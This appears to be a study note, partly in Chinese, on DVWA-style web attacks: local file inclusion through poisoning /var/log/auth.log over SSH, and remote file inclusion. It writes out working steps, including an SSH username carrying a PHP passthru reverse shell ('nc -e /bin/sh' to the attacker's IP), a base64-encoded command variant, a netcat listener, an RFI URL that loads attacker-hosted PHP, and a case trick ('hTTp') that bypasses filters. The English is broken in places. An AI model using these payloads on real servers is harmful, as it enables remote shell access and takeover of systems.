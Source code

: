 **Using the /var/log/auth.log**

1. Connect to the target server by ssh.
2. look whether have log message be written in the auth.log
3. If the log message was written in the auth.log

```html
PHP:
    Access The File /var/log/auth.log on browser
    KALI:
        nc -vv -p Port//listen the port
        ssh "<?passthru('nc -e /bin/sh KaliIPaddress port');?>"@SeverIPAddress//通过ssh连接注入代码
        ssh "<?passthru(base64_decode('TheCommandBase64'));?>"@ServerIPAddress//把命令转换成Base64编码，然后再解码运行，有利于命令不被混淆
    Refresh The Web Interface
    Then You Will find your have get the shell.    
   //KaliAddress NOT Means The local area network IPaddress
```

All in all the key point is:

- Find The Log File(日志) And try to write code in the log file.
- Make a way to inject the code.

Example:auth.log stroed the connection messages of ssh so you can make a ssh connect to inject the code into auth.log inside.

**REMOTE FILE INCLUSION****  **

- Similar to local file inclusion.
- But allows an attacker read ANY file from ANY server.
- Execute php files from other servers on the current server.
- Execute php files from other servers on the current server.
- Store php files on other servers as .txt.

```html
Store The Code Want To Be Injected On Kali As .txt file
Such as the .txt contain:
    PHP:
       <?php
       passthru('nc -e /bin/sh KaliIPaddress port');
       ?>
 Stored on your KaliComputer
 For example the path is xxx/xxx.txt            
KALI:
     nc -vv -p Port//listen the port
Browser:
       SEND REQUESTS by url
       such url as :10.20.14.204/dwwa/wudnerabilties/h/?page=http://KaliIPAddress/xxx/xxx.txt?
       //You Need Add ? AT THE END FOR THE CODE RUNNING
       Some Web Have filter for the sending requests
       So you can change the url below as 10.20.14.204/dwwa/wudnerabilties/h/?page=hTTp://KaliIPAddress/xxx/xxx.txt?
       //this means the filter filters http because one url just have one http normally         
KALI:
     Then You will Get the shell
```

